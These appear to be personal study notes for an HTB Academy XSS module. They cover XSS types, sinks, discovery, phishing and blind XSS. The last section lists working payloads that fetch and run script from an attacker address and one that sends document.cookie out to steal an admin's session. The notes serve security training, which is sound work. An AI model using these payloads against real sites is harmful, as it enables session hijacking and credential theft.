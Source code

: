```yaml
---
layout: single
title:  "HTB Academy - Cross-Site Scripting (XSS)"
categories: 
  - OSCP Notes
tags:
  - htb-academy
toc: true
toc_label: "Contents"
toc_icon: "list"  # corresponding Font Awesome icon name (without fa prefix)
excerpt: ""
permalink: /posts/xss-notes
author_profile: false
sidebar:
  nav: "navbar"
---
```


**Types of XSS attacks**

* Stored (Persistent) - user input is stored on the back-end database, and displayed for all users.
* Reflected (Non-persistent) - user input not stored, but still displayed on the page after being processed by the back-end server.
* DOM-based - user input is not stored, and not processed by the back-end servers at all; attack vector is through client-side HTTP parameters/anchor tags.

## Stored XSS

To know if the payload is persistent, reload the page and see if the payload appears again.

* For example, if the payload consists of an `alert()`, reloading the page will trigger the `alert()` again.

## Reflected XSS

For reflected XSS, the payload will not appear again once we navigate away from the page.

## DOM-based XSS

For DOM XSS, JavaScript is used to modify the page source through the Document Object Model (DOM).

JS Sink Functions used for DOM XSS:

* `document.write()`
* `DOM.innerHTML`
* `DOM.outerHTML`

`jQuery` functions for DOM XSS:

* `add()`
* `after()`
* `append()`

## XSS Discovery

### Automated Discovery

Useful tools: `XSS Strike`, `Brute XSS`, `XSSer`

### Manual Discovery

Manually inject payloads into input fields to test.

* Note that aside from form fields, HTTP headers can also be vulnerable if their values are displayed on the page.

Alternatively, we can also review front-end and back-end code to look for usage of Source/Sink functions.

## Defacing and Phishing

Websites can be defaced if it has a stored XSS vulnerability.

Phishing can be carried out if we can inject HTML elements (like input forms for `username` and `password`). This is possible irrespective of XSS attack type.

* For non-persistent XSS, we can generate a custom phishing link with our custom payload.
* Credentials can be stolen this way if we have a listener on the phishing page.

## Cookie Stealing (blind XSS)

In blind XSS situations, the vulnerabilities are triggered on pages we don't have access to. This is possible on registration pages, or support pages (generally, pages where the content entered is to be reviewed by an administrator).

To test for blind XSS, we can try to inject a payload that sends a `GET` request to our local web server.

* This can be done by setting the JS script source to our local domain: `<script src="http://OUR_IP/script.js"></script>`
* The file/directory to `GET` can be modified to the field we are testing. If we receive a `GET` request on our web server, we know the field is vulnerable.

Some example blind XSS payloads:

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

Once a working payload is found, we can inject another payload to steal the admin's cookie (session hijacking) - this cookie can be retrieved using the `document.cookie` attribute.

* For example: `new Image().src='http://OUR_IP/index.php?c='+document.cookie`
* If necessary, the cookie can be encoded (`base64` or URL-encoded).

With this obtained cookie, we can inject it into the HTTP headers to hijack the admin's session.
